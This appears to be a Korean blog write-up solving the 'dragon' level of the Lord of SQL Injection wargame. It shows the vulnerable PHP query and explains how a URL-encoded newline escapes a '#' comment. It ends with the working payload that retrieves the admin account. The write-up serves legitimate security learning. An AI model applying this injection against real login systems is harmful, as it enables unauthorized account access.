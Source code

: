 ```yaml
---
title: LOS - 20번 dragon
category: [Wargame, Lord of SQL Injection]
---
```


# [20] dragon

## 문제
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FdVPRAK%2FbtrnP7hVFzh%2FQKtIyj2XkRhpCJhBS1Kuv1%2Fimg.png">

## 풀이
주어진 쿼리문을 보겠다.

```php
$query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
```

첫번째 조건절 뒤에 #을 넣어서 뒷부분을 날려버리고 있다.

<br>

스터디 초반에 로그인 로직 5가지 유형을 개발할 때, 조건절이 개행 처리된 쿼리에는 주석을 주입해도 원하는대로 처리되지 않음을 경험했었다.

이 점에 착안해서 개행 문자를 이용해주면 될 것 같다.

<br>

즉, 쿼리문을 다음과 같이 변조할 생각이다.


```php
$query = "select id from prob_dragon where id='guest'# and pw='
	    and pw='' or id='admin'";
```

<br>

위 쿼리문은 다음 쿼리문과 동일하게 동작한다.

```php
$query = "select id from prob_dragon where (id='guest' and pw='') or id='admin'";
```

따라서 정상적으로 admin 계정을 fetch 해오게 된다.

<br> 

개행 문자인 \n 은 url encoding을 거쳐 **%0a**로 입력해준다.

<br>

입력할 답은 다음과 같다.

```
%0a and pw='' or id='admin
```

## 결과
<img src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FcVwX0y%2FbtrnPk3bf4W%2FN4kYfakdGJ6KpZu0buH111%2Fimg.png">
